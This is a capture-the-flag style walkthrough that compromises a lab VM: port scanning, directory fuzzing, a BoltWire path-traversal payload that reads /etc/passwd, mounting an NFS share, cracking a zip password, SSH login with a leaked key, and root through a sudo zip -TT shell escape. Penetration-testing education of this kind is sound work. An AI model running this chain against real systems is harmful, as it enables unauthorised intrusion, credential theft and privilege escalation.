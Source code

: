 # Dev machine writeup
Starting with nmap scan
```
sudo nmap 192.168.0.106 -T4 -A -p-
```

![nmap_scan](https://github.com/moataz-bellah/writeups/assets/47069499/0a26779d-dac7-43d4-a7c5-bab4a06393a1)

We have a lot of ports, but we will focus on 22, 80, 8080, 2049. We have two ports for http 80 and 8080. Let's see both of them.
- On port 80

![boltwire_port_80](https://github.com/moataz-bellah/writeups/assets/47069499/16a62c1b-5b5a-4844-9de2-cc55ac5ac842)

- On port 8080

![boltwire_port_8080](https://github.com/moataz-bellah/writeups/assets/47069499/41dd0ef2-e72a-40ed-95ab-718e8c4f08de)

Ok, let's do directory busting to find more useful dirs. I did dirbusting on both ports 80, 8080.

- For port 80

```
ffuf -u http://192.168.0.106/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
/extensions
/vendor
/app
/src
/public
```

- For port 8080

```
ffuf -u http://192.168.0.106:8080/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
/dev
```

We found a lot of paths, to save your time i checked all of them and i only found two useful directories /dev, /app. Let's start with /app. Inside /app, you will find some interesting files, but i want to  
on /app/config/config.yaml. When i checked that file, i found sqlite credentials

```
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```

Let's see /dev

![bolt_wire_login](https://github.com/moataz-bellah/writeups/assets/47069499/2228f650-8382-480a-96b3-467a3be2d50f)

I tried to login with the credentials (username: bolt, password: I_love_java) we found, but i didn't work. Ok, let's create a new account using from register. I created one (username: test, password: test).  
Exploring the site and i found something might be useful when you click print in the navbar.

![bolt_wire_version](https://github.com/moataz-bellah/writeups/assets/47069499/73cb83af-e18f-40a5-b0c8-83e91c751b5d)

Ok, we have the site version. I searched online for any exploit, and i found this site vulnerable to LFI. See these link for more information https://www.exploit-db.com/exploits/48411
https://github.com/Cyber-Wo0dy/CVE-2023-46501. Note, you have to be logged in to execute the exploit. Using /index.php?p=action.search&action=../../../../../../../etc/passwd i found that

![lfi_exploit](https://github.com/moataz-bellah/writeups/assets/47069499/582c44ba-f31d-42a3-95b4-f35ece34d933)

I found username "jeanpaul". I tried some other sensitive files, but it didn't work. Nothing more in this site. Let's move to port 2049.

```
showmount -e 192.168.0.106
Export list for 192.168.0.106:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```

Good, we have /srv/nfs, let's get it and see what it has.

```
mkdir /mnt/test
sudo mount -t nfs 192.168.0.106:/srv/nfs /mnt/test
```

I found a zip file "save.zip" protected with a passwrod. We crack the password using fcrackzip tool

```
sudo fcrackzip -D -u -p /home/robot/Desktop/rockyou.txt save.zip

PASSWORD FOUND!!!!: pw == java101
```

After unzipping the file, i found two files todo.txt , id_rsa.

```
cat todo.txt
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp
```

It has nothing interesting, but we have a great file id_rsa which is a private key for ssh. Let's try to login to ssh using that file. I tried with (username: bolt, password: I_love_java), but it didn't work
I tried to login with (username: jeanpaul, password: I_love_java)

```
ssh -i id_rsa jeanpaul@192.168.0.106                            
Enter passphrase for key 'id_rsa': I_love_java
```

![ssh](https://github.com/moataz-bellah/writeups/assets/47069499/e98820f6-33f9-4d33-9331-cdf017fd8c84)

Heeey, we are in.

# Privilege Escalation

Let's see what commands we can run with root privileges using command sudo -l

```
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
```

We can run /usr/bin/zip with root privileges. How can we leverage that? I searched online, and i found that https://gtfobins.github.io/gtfobins/zip/.
According to that resource, we can abuse /usr/bin/zip to get root access by running these commands
```
TF=$(mktemp -u)
```

This will create a temporery file and put in TF variable. If we see zip help, we will see -TT option which allows us to run commands. We can abuse that to get root
access.

```
sudo zip $TF /etc/hosts -T -TT 'bash #'
```

![root_access](https://github.com/moataz-bellah/writeups/assets/47069499/0cfe0f2b-3e38-47cb-a797-ca9c5c35ae07)

Yees, we root now.








